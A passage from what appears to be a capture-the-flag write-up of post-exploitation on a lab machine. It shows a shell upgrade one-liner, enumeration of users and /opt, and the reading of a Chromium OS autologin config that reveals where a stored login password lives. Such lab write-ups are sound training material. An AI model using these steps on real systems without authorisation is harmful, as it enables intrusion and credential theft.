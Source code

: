 ```
id

uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```


## Lateral Movement:


upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

enumerating users
```
bash-4.3$ cd /home

bash-4.3$ ls

katie  nginx
```

looking for suspicious file/s (config/logs)
```
bash-4.3$ cd /opt

bash-4.3$ ls -la

total 44
drwxr-xr-x 10 root root 4096 Feb  3 16:42 .
drwxr-xr-x 22 root root 4096 Feb  2 14:52 ..
drwxr-xr-x  2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4096 Jan 15 15:55 google
drwxr-xr-x  6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm2

bash-4.3$ cat autologin.conf.orig

# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
```